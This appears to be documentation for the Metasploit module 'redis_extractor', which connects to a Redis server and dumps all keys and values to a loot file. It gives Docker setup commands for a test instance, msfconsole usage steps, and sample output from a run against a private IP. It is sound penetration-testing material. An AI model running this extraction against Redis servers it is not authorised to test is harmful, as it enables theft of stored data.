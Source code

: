 ## Vulnerable Application

This module attaches to a Redis instance and extracts all stored keys and their associated data. If multiple databases are present the module will iterate through each.

This module works on Redis versions 2.8.0 and later, and has been tested on versions through 6.0.8.

To prepare a test instance of Redis,first install Redis v2.8.0 or greater. This can be done in docker with:

`docker run -d -p 6379:6379 --name redis redis`

Next, add some data to the database:

`echo 'set key1 value1' | nc 127.0.0.1 6379 > /dev/null`(MacOS, may differ on Linux)

Alternately, to run docker with a password:

```bash
docker run -d -p 6379:6379 --name redis redis --requirepass abcde
echo 'auth abcde \n set key2 value2' | nc 127.0.0.1 6379 > /dev/null
``` 


## Verification Steps

1. Install Redis and add data as described above.
2. Start `msfconsole`
3. Do: `use auxiliary/gather/redis_extractor`
4. Do: `set rhosts [ip.of.redis.app]` 
5. Do: `set PASSWORD [redis_password]` (optional)
5. Do: `check` (optional)
6. You will receive information about the Redis instalce.
7. Do: `run`
8. You will receive a screendump of the cached keys and contet.
9. A CSV file with keys and content will be saved in your loot directory.

## Options

### **PASSWORD**

The password for the redis instance. This value will be ignored for instances with no password required.

## Scenarios

### Check 

```bash
msf6 > use auxiliary/gather/redis_extractor
msf6 auxiliary(gather/redis_extractor) > set rhosts 172.22.12.168
rhosts => 172.22.12.168
msf6 auxiliary(gather/redis_extractor) > check

[+] 172.22.12.168:6379    - Connected to Redis version 6.0.8
 *] 172.22.12.168:6379    - OS is Linux 5.4.39-linuxkit x86_64
[*] 172.22.12.168:6379 - The target appears to be vulnerable.
msf6 auxiliary(gather/redis_extractor) >
```

### Run

```bash
msf6 > use auxiliary/gather/redis_extractor
msf6 auxiliary(gather/redis_extractor) > set rhosts 172.22.12.168
rhosts => 172.22.12.168
msf6 auxiliary(gather/redis_extractor) > run

[+] 172.22.12.168:6379    - Connected to Redis version 6.0.8
[*] 172.22.12.168:6379    - Extracting about 1 keys from databaase 0

Data from 172.22.12.168:6379    database 0
==========================================

 Key   Value
 ---   -----
 key1  value1

[+] 172.22.12.168:6379    - Redis data stored at /root/.msf4/loot/20201113203708_default_172.22.12.168_redis.dump_db0_836292.txt
[*] 172.22.12.168:6379    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(gather/redis_extractor) >
```